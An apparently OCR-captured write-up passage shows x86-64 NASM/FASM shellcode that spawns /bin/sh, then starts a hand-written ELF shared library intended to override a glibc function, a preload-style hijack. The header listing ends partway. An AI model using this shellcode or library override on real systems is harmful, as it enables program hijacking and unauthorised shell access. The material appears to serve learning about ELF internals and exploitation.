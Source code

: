 ```
    push rdx
    push rsi
    push rbx
    xor rax,rax
    xor rdx, rdx
    xor rsi, rsi
    mov rbx,'/bin/sh'
    push rbx
    push rsp
    pop rdi
    mov al, 59
    syscall
    pop rbx
    pop rbx
    pop rsi
    pop rdx
    pop rax
    ret

filesize  = $ - $$
```

Straight out of this blog `https://blog.stalkr.net/2014/10/tiny-elf-3264-with-nasm.html`
When assembled with `fasm small.asm ./small` we get a shell in only 156 bytes. Yay !

So now the plan was to write a shared lib by hand which will override a glibc function
For a shared library you need two program headers, one defining a LOADable segment and another a DYNAMIC segment.
Then you need to construct section headers, one SYMTAB section containing our overwriting symbol, a STRTAB containing the strings, a text section for our actual payload,and DYNSYM section.

```
use64
org 0x0
 
ehdr:                             ; Elf64_Ehdr
    db  0x7f, "ELF", 2, 1, 1, 0   ; e_ident
        times 8 db      0
    dw  3                         ; e_type
    dw  0x3e                      ; e_machine
    dd  1                         ; e_version
    dq  _start                    ; e_entry
    dq  phdr - $$                 ; e_phoff
    dq  sectionHeaders - $$       ; e_shoff
    dd  0                         ; e_flags
    dw  ehdrsize                  ; e_ehsize
    dw  phdrsize                  ; e_phentsize
    dw  2                         ; e_phnum
    dw  64                        ; e_shentsize
    dw  6                         ; e_shnum
    dw  4                         ; e_shstrndx
    ehdrsize  = $ - ehdr
 
phdr:           ; Elf64_Phdr
    phdr_loadable:
        dd  1                     ; p_type
        dd  7                     ; p_flags
        dq  0                     ; p_offset
        dq  $$                    ; p_vaddr
        dq  $$                    ; p_paddr
        dq  filesize              ; p_filesz
        dq  filesize              ; p_memsz
        dq  0x1000                ; p_align
phdrsize  = $ - phdr
```